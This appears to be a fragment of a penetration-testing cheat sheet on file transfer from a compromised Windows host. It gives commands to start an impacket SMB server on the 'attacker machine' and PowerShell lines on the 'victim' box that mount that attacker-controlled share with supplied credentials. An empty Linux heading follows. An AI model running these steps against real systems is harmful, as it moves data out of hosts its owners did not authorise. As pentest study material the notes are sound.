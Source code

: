 ## Windows

### impacket-smbserver. Useful when transferring through evilwinrm
On attacker machine. 
```
impacket-smbserver <NameOfServer> $(pwd) -smb2support -user <AnyUser-UsedForLater> -password <AnyPassword-UsedForLater>
```
On the victim Evilwinrm box
```
$pass = convertto-securestring <'AnyPassword'> -AsPlainText -force
$cred = New-Object System.Management.Automation.PSCredential(<'AnyUser'>, $pass)

New-PSDrive -Name <UserFromLastStep> -PSProvider Filesystem -Credential $cred -Root \\<Attacker.IP.Address.>\<NameOfServer>
```

## Linux
